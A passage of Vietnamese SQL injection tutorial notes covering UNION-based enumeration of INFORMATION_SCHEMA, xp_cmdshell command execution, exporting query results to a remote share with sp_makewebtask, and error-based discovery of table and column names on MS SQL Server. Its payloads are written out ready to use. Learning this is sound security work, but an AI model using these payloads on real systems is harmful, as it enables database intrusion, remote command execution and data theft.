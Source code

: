 - Đối với hầu hết các hệ cơ sở dữ liệu (trừ Oracle) thì đều chứa một cơ sở dữ liệu thông tin là **INFORMATION_SCHEMA**
  - Trước hết, chúng ta cần biết tới **INFORMATION_SCHEMA** trong MySQL - là một cơ sở dữ liệu thông tin, tại đây lưu trữ thông tin các cơ sở dữ liệu khác của MySQL. Trong cơ sở dữ liệu thông tin này có nhiều bảng và view, tuy nhiên có lẽ hay sử dụng nhiều nhất là các bảng TABLES - chứa tất cả thông tin về các bảng, COLUMNS - chứa tất cả các thông tin về các cột của các bảng, USER_PRIVILEGES - chứa tất cả các thông tin về quyền truy cập của các người dùng đối với mỗi cơ sở dữ liệu.
  - `SELECT * FROM information_schema.tables`

![image](https://hackmd.io/_uploads/r1x3-Fn56.png)

- Như chúng ta thấy, thông tin tên các bảng được liệt kê trong cột TABLE_NAME. Như vậy, để có thể kết hợp phép UNION nhằm hiển thị danh sách tên các bảng trong cơ sở dữ liệu, chúng ta có thể "hợp" dữ liệu trong cột TABLE_NAME này vào câu truy vấn chứa lỗ hổng SQL injection. Payload có dạng như sau: `' UNION SELECT NULL, table_name FROM information_schema.tables--`
- Sau khi có được danh sách tên bảng, chúng ta có thể truy xuất thông tin tất cả các cột từ một bảng cụ thể, chẳng hạn bảng Users với cú pháp như sau: `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

![image](https://hackmd.io/_uploads/By1n8t2qp.png)

- Thông tin các cột được hiển thị trong cột COLUMN_NAME. Do đó có thể kết hợp phép UNION nhằm hiển thị danh sách tên các cột trong bảng Users với payload như sau: `' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = 'Users'--`
- **Khai thác**
  **1. THI HÀNH LỆNH TỪ XA BẰNG SQL INJECTION** - Nếu cài đặt với chế độ mặc định mà không có điều chỉnh gì, MS SQL Server sẽ chạy ở mức SYSTEM, tương đương với mức truy cập Administrator trên Windows. Có thể dùng store procedure xp_cmdshell trong CSDL master để thi hành lệnh từ xa: - mã `'; exec master..xp_cmdshell 'ping 10.10.1.2'--` - có thể listen các ICMP packet từ 10.10.1.2 bằng tcpdump như sau: `tcpdump icmp` . Nếu nhận được ping request từ 10.10.1.2 nghĩa là lệnh đã được thi hành.
  **2. NHẬN OUTPUT CỦA SQL QUERY** - Có thể dùng sp_makewebtask để ghi các output của SQL query ra một file HTML - mã `'; EXEC master..sp_makewebtask "\\10.10.1.3\share\output.html", "SELECT * FROM INFORMATION_SCHEMA.TABLES"` - và folder “share” phải được share cho Everyone trước để chúng ta có thể đọ. Ví dụ như chúng ta tạo 1 file html mới và ghi nội dung của database vào đó và chúng ta có thể đọc nó như 1 trang web từ web server
  **3. NHẬN DỮ LIỆU QUA ‘DATABASE USING ODBC ERROR MESSAGE’** - Lấy ví dụ ở trên http://yoursite.com/index.asp?id=10, bây giờ chúng ta thử hợp nhất integer ’10’ với một string khác lấy từ CSDL: - mã `http://yoursite.com/index.asp?id=10 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES--`. - Bảng INFORMATION_SCHEMA.TABLES của hệ thống SQL Server chứa thông tin về tất cả các bảng (table) có trên server. Trường TABLE_NAME chứa tên của mỗi bảng trong CSDL. Chúng ta chọn nó bởi vì chúng ta biết rằng nó luôn tồn tại. - Dòng query này sẽ trả về tên của bảng đầu tiên trong CSDL. Khi chúng ta kết hợp chuỗi này với số integer 10 qua statement UNION, MS SQL Server sẽ cố thử chuyển một string (nvarchar) thành một số integer. Điều này sẽ gặp lỗi nếu như không chuyển được nvarchar sang int, server sẽ hiện thông báo lỗi sau: - Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value **'table1'** to a column of data type int. /index.asp, line 5. - Thông báo lỗi trên cho biết giá trị muốn chuyển sang integer nhưng không được, **“table1“**. Đây cũng chính là tên của bảng đầu tiên trong CSDL mà chúng ta đang muốn có. - Để lấy tên của tên của bảng tiếp theo, có thể dùng query sau: - mã: `http://yoursite.com/index.asp?id=10 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME NOT IN ('table1')--` - Cũng có thể thử tìm dữ liệu bằng cách khác thông qua statement LIKE của câu lệnh SQL: - mã: `http://yoursite.com/index.asp?id=10 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%25login%25'--` - Khi đó thông báo lỗi của SQL Server có thể là: Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'admin_login' to a column of data type int. /index.asp, line 5. - Mẫu so sánh ‘%25login%25’ sẽ tương đương với %login% trong SQL Server. Như thấy trong thông báo lỗi trên, chúng ta có thể xác định được tên của một table quan trọng là “admin_login“.
  **4. XÁC ĐỊNH TÊN CỦA CÁC COLUMN TRONG TABLE** - Table INFORMATION_SCHEMA.COLUMNS chứa tên của tất cả các column trong table. Có thể khai thác như sau: - mã: ` http://yoursite.com/index.asp?id=10 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='admin_login'--` - Khi đó thông báo lỗi của SQL Server có thể như sau: Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value **'login_id'** to a column of data type int. /index.asp, line 5 - Như vậy tên của column đầu tiên là “login_id“. Để lấy tên của các column tiếp theo, có thể dùng mệnh đề logic `NOT IN ()` như sau:

